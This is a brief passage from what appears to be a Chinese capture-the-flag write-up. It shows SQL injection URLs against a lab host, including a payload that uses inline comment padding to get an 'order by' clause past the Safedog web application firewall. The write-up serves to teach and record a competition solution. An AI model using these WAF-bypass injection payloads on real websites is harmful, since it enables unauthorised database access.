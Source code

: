 ```
http://172.16.8.8/product.php?id=12' and ''='
```

![](/images/2018-half-year-wp/2.png)

安全狗，此地无银三百两，估计就是考绕狗注入了，难度不大，直接发payload了

```
http://172.16.8.8/product.php?id=12'/*%!AA*/order/*%!AA*/by/*%!AA*/1 -- -
```

![](/images/2018-half-year-wp/3.png)
